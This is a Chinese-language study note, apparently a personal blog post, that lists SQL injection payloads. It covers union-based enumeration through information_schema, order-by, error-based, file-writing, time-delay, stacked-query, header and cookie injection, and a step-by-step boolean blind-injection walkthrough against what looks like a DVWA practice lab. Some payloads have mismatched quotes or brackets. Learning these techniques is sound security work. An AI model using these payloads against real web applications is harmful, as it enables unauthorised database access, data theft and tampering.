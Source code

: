 ```yaml
---
published: true
---
```

### 一些常用的注入
### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如:  id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。  
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名  
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名  
5、知道pass段名有user union select 1，2，3，pass from user  

### Order by注入:  
当原始sql语句是order by时不能使用union等进行注入  
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
 	(rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。)  
2、报错注入  
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+  
3、导入导出文件into outfile参数  
	?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”   
4、延时注入  
	？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+  
#(如果为假，就会有延迟)

### 堆叠查询：
即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
	id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![](https://ljjbloghub.github.io/img/sql2.jpg)

报错信息’）要需求多构造）
![](https://ljjbloghub.github.io/img/sql2.jpg)
### cookie注入： 
对cookie的值进行union注入,注意cookie是否经过编码

### 盲注： 
- 判断是否存在注入，注入是字符型还是数字型
- 猜解当前数据库名
- 猜解数据库中的表名
- 猜解表中的字段名
- 猜解数据

1.判断注入是字符型还是数字型  
 
输入：1' and 1=1;#  
 
输出：User ID exists in the database.  
 
输入：1' and 1=2;#  
 
输出：User ID is MISSING from the database.  
 
则可以判断为字符型注入。  
2.猜解当前数据库信息  
 
猜解数据库长度:  
 
1' and length(database())=4;#  
 
数据库名的长度是4位.  
 
使用二分法猜解数据库名：  
 
1' and ascii(substr(database(),1,1)) > 100;#  
 
  User ID is MISSING from the database.  
 
1' and ascii(substr(database(),1,1)) < 100;#  
 
  User ID is MISSING from the database.  
 
判断出数据库名的第一个ascii字符为100，就是d，以此按照以上方法可以猜解出数据库名.  
 
3.猜解表信息  
 
猜解表数：  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1; #  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2; #  
 
判断出数据库中存在两个表  
 
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9; #  
 
判断出第一个表名的长度为9  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<110; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103; #  
 
判断出第一个表名的第一个字母是g  
 
重复以上步骤，猜解出两个表名分别为 guestbook，users  
 
4、猜解字段名  
 
猜解字段的数量：  
 
1' and (select count(column_name) from information_schema.columns where table_name='users')=8; #  
 
输出：User ID exists in the database.  
 
猜解字段长度：  
 
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7; #  
猜解字段名:  
1’and ascii（substr(select column_name from information_schema.columns where table_name=‘users’ limit 0,1)，1,1））>97 //猜解第一个字段的第一个字母的ascii   



